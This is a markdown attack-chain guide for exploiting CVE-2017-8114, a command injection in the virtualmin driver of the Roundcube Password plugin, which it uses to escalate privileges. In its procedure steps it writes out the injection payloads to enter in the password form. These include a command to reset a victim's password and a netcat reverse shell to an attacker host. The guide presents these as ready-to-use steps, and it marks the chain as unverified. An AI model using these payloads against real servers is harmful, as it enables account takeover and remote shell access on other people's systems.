

# Command Injection in Roundcube Password Plugin Virtualmin Driver for Privilege Escalation

Multi-stage attack chain demonstrating exploitation of CVE-2017-8114 in Roundcube webmail to achieve privilege escalation via command injection in the Password plugin's virtualmin driver.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Firefox or Chrome with developer tools)

### Target Environment

- Roundcube webmail instance with Password plugin enabled and virtualmin driver configured
- PHP-based web server (e.g., Apache with PHP)
- Virtualmin control panel integration

### Initial Access Requirements

- Valid user credentials for Roundcube webmail login
- Network access to the webmail interface (typically port 80/443)
- No prior elevated access required, but authenticated session needed

## Detailed Attack Procedures

### Step 1: Initial Access

procedure: [[procedures/Exploit-Command-Injection-in-Roundcube-Password-Plugin]]

**Objective**: Authenticate to Roundcube webmail to gain access to the Password plugin interface.

**Instructions**: Open a web browser and navigate to the Roundcube login page (e.g., https://target.com/roundcube). Enter valid credentials to log in. Once logged in, verify access to user settings.

**Expected Output**: Successful login redirect to the inbox or settings page.

**Success Indicators**:
- Authenticated session established
- Access to Settings > Password tab available

### Step 2: Execution

procedure: [[procedures/Exploit-Command-Injection-in-Roundcube-Password-Plugin]]

**Objective**: Inject a malicious command payload into the password change form using the virtualmin driver to execute arbitrary system commands.

**Instructions**: Navigate to Settings > Password. Select the virtualmin driver if prompted. In the current password field, enter a payload like `' ; id ; #` to inject and execute the `id` command (comment `#` to ignore further input). Submit the form to trigger the injection.

**Expected Output**: The virtualmin command executes the injected payload, returning output like user ID details in the error or response.

**Success Indicators**:
- Command output visible in response or logs
- No password change error, but evidence of command execution

### Step 3: Privilege Escalation

procedure: [[procedures/Exploit-Command-Injection-in-Roundcube-Password-Plugin]]

**Objective**: Leverage the injection to reset other users' passwords or spawn a shell for further compromise.

**Instructions**: Modify the payload for escalation, e.g., `' ; virtualmin reset-password --domain target.com --user victim ; #` to reset a victim's password, or `' ; nc -e /bin/sh attacker-ip 4444 ; #` for reverse shell if netcat is available. Submit and monitor for success.

**Expected Output**: Successful password reset confirmation or incoming shell connection on attacker's listener.

**Success Indicators**:
- Victim's password reset
- Shell access obtained
- Privilege escalation to system level

## Attack Chain Summary

### Key Achievements

1. Authenticated access to vulnerable Password plugin
2. Arbitrary command execution via injection
3. Privilege escalation including password resets and potential RCE shell

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
